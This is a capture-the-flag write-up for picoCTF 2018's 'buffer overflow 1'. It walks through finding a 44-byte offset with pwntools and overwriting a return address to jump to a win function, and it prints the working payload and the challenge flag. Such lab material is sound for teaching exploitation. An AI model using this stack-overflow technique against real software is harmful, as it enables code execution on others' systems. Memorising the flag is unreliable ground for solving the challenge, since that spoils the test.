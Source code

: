 # buffer overflow 1
Points: 200

## Category
Binary Exploitation

## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. Source. 

### Hint
>This time you're actually going to have to control that return address!
>
>Make sure you consider Big Endian vs Little Endian.

## Solution
Before looking at the source code, we can run the program first.

```
$ ./vuln 
Please enter your string: 
AAAA
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```

Looks like it takes in an input, and jumps to an address. Let's look at the source code now.

```c
// Imports here...
#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
	char buf[FLAGSIZE];
	FILE *f = fopen("flag.txt","r");
	// Reading flag file
	printf(buf);
}

void vuln(){
	char buf[BUFSIZE];
	gets(buf);

	printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){
	// Unimportant stuff
	puts("Please enter your string: ");
	vuln();
	return 0;
}
```

We can see that the address that it shows us is the return address, which should be the address of _main_. If we do a buffer overflow, we can take control of the return address, and let the program jump to wherever we want.

In this case, we would like to jump to the _win_ function, which prints out the flag.

Let's try spamming the program again to see if our hunch is correct.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault
```

The return address has been overwritten to _0x41414141_, which is the hex value of _A_. As long as we can find the correct amount of padding, we can control the where the return pointer returns to.

We can use the [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence), which will find the padding we need. We will use _pwntools_.

```python
>>> from pwn import *
>>> cyclic(100)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

We can now feed that string into the program and see what address the program jumps to.

```
$ ./vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
Segmentation fault
```

Ok, it jumps to _0x6161616c_. We can use `cyclic_find()` to find the offset. First we convert the hex back into ASCII. Remember that this is in little endian format. `p32()` just converts the hex back into ASCII in little endian format.

```python
>>> from pwn import *
>>> cyclic_find(p32(0x6161616c))
44
```

Now we know the amount of padding required. Let's test it again, with 44 'A's, and another 4 'B's. We should expect the address to show _0x41414141_.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault
```

Just as we expected. All that's left to do is to replace _BBBB_ with the ASCII values that corresponds to the address of the _win_ function.


```python
>>> from pwn import *
>>> vuln = ELF('./vuln')
[*] '/root/Desktop/picoCTF/Binary Exploitation/buffer overflow 1/solution/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
>>> p32(vuln.symbols['win']) # Get address of win function
'\xcb\x85\x04\x08'
>>> 'A' * 44 + '\xcb\x85\x04\x08'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xcb\x85\x04\x08'
```

Of course, we cannot type _\xcb\x85\x04\x08_ in ASCII format, so all we have to do is have Python output this string, and pipe it into the program _vuln_.

```
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{sample_flag}
Segmentation fault
```

Great! It works locally, all we have to do now is run it on the web shell.

```
$ cd /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy65489706}Segmentation fault
```

And we get the flag!

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{addr3ss3s_ar3_3asy65489706}`


附带参考资料https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-0
